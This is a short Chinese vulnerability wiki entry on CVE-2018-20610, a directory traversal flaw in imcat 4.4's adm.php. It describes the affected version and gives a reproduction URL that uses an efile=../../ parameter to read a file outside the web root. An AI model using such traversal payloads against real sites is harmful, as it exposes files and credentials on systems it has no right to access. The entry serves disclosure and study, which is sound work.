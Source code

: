 （CVE-2018-20610）Imcat 4.4 敏感信息泄露
========================================

一、漏洞简介
------------

imcat是一套基于PHP的开源建站系统。 imcat
4.4版本中的root/run/adm.php文件存在目录遍历漏洞。目前尚无此漏洞的相关信息，请随时关注CNNVD或厂商公告。

二、漏洞影响
------------

imcat 4.4

三、复现过程
------------

先在D盘创建1.txt

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-20610)Imcat4.4敏感信息泄露/media/rId24.png)

    http://www.0-sec.org/root/run/adm.php?admin-ediy&part=edit&dkey=runs&dsub=&efile=../../1.txt&dialog=1546054963116&lang=cn

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-20610)Imcat4.4敏感信息泄露/media/rId25.png)

参考链接
--------

> <https://github.com/AvaterXXX/CVEs/blob/master/imcat.md>
